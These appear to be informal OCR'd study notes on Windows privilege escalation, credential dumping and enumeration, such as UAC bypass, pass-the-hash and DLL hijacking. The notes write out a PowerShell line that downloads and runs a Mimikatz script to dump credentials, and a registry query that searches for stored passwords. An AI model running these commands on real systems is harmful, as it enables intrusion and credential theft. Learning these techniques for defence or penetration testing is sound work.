 ## privilege escalation

1. unquoted service path - changing the program loading order

2. Environment variable path interception - looking at writeable path in $PATH

3. image file execution options inject -

setting cmd.exe as notepad.exe debugger so that when notepad.exe is executed it will actually start cmd.exe

4. DLL search order hijacking

5. Primary access token manipulation - creating a new process with a token stolen from another process

remember how services uses user token to run. so they copy the token.

7zip exploit running command with cmd

fodhelper.exe in UAC bypass

6. Pass the hash -  privilege escalation with invoke- WMIExec 

if we have an NTLM v2 hash of a local administrator is available then it is possible to pass the has and execute code with privileges of that local administratoe

7. Weak service permissions - 

if low privileged user can overrite binary service

## Credential access and dumping

1.  Dumping credentials with Mimikatz

`powershell IEX (New-Object Sytem.Net.webClient).DownloadString('http://mimikatz.ps1'); Invoke-Mimikatz --Dumpcreds`

it can also be done with mindump

2. Dumping hashes from SAM via Registry

we get the samdumpt then in kali we can use samdump2 system sam
samdump get the ntlm hashes

3. We can dump SAM via esentutl.exe

4. Credentials in Registry 

we can serach through `reg query HKLM /f password /t REG_SZ /s`

5. we can also dump caches and cookies, neosoft mpass view > browser dump


## Enumeration and Discovery

1. looking at sysmon

2.  WIndows events
